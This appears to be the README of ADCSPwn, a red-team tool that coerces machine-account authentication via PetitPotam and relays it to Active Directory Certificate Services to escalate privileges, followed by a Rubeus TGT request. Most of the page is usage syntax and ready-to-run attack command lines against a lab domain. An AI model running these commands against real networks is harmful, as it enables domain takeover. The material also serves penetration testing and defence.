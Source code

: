 # ADCSPwn

A tool to escalate privileges in an active directory network by coercing authenticate from machine accounts and relaying to the certificate service.

## Usage

Run `ADCSPwn` on your target network.

```
Author: @_batsec_ - MDSec ActiveBreach

adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]

Required arguments:
adcs            -       This is the address of the AD CS server which authentication will be relayed to.

Optional arguments:
port            -       The port ADCSPwn will listen on.
remote          -       Remote machine to trigger authentication from.
username        -       Username for non-domain context.
password        -       Password for non-domain context.
dc              -       Domain controller to query for Certificate Templates (LDAP).
unc             -       Set custom UNC callback path for EfsRpcOpenFileRaw (Petitpotam) .
output          -       Output path to store base64 generated crt.

Example usage:
adcspwn.exe --adcs cs.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --dc dc.pwnlab.local --unc \\WIN-WORK01.pwnlab.local\made\up\share
```

Request a TGT with the base64 encoded certificate output using Rubeus.
